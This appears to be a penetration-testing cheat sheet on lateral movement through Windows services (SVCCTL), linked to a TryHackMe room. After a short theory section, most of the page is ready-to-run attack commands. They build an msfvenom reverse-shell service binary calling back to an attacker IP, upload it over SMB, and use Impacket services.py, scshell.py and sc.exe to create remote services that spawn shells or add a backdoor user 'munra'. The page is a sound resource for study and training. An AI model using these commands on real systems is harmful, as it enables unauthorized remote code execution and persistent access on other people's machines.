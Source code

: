# Services (SVCCTL)

## Theory

Windows services can also be leveraged to run arbitrary commands since they execute a command when started. When using sc, it will try to connect to the Service Control Manager (SVCCTL) remote service program through RPC in several ways:

* By using [MS-SCMR](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-scmr/705b624a-13de-43cc-b8a2-99573da3635f) protocols over RPC to connect EMP at port 135. WIll ask for the SVCCTL RPC Endpoint wich is a dynamic port
* Try to reach SVCCTL Through SMB named pipes (\PIPE\svcctl) on port 445 (SMB) or 139 (SMB over NetBIOS)

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
### Service.py

The [Impacket](https://github.com/SecureAuthCorp/impacket) script [service.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/service.py) can be use to interact with services remotely.

```bash
# create an exe as a service
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<PORT> -f exe-service --platform windows -e x64/xor_dynamic  -o shell.exe

# Upload the exe to windows machine
smbclient '\\<TARGET>\smbshare' -U <user> -c "put shell.exe test.exe"

# Using impacket services.py create service remotely
services.py <DOMAIN>/<user>@<TARGET> create -name shell-svc -display my-shell-svc -path "\\\\<TARGET>\\smbshare\\shell.exe"

# Using impacket services.py start the service and get the shell
services.py <DOMAIN>/<user>@<TARGET> start -name shell-svc

# Using impacket services.py delete the service
services.py <DOMAIN>/<user>@<TARGET> delete -name shell-svc
```

We also can execute commands instead of a binary

```bash
# Using impacket services.py create service remotely
services.py <DOMAIN>/<user>@<TARGET> create -name addme -display addme -path "net user munra Pass123 /add"

# Using impacket services.py start the service and get the shell
services.py <DOMAIN>/<user>@<TARGET> start -name addme

# Using impacket services.py delete the service
services.py <DOMAIN>/<user>@<TARGET> delete -name addme
```

{% hint style="info" %}
You will get an error starting the service but the commands will still be executed
{% endhint %}

### Scshell.py

The script [scshell.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/scshell.py) can automate the process to spawn a shell

```bash
#Create a service, get shell, delete service
scshell.py domain/<user>@<TARGET>
```
{% endtab %}

{% tab title="Windows" %}
On windows, we can use the built in sc.exe binary to remotely interact with services

```bash
#Start a remote service
sc.exe \\TARGET create MyService binPath= "net user munra Pass123 /add" start= auto
sc.exe \\TARGET start MyService

#Stop and delete a remote service
sc.exe \\TARGET stop MyService
sc.exe \\TARGET delete MyService
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/lateralmovementandpivoting" %}
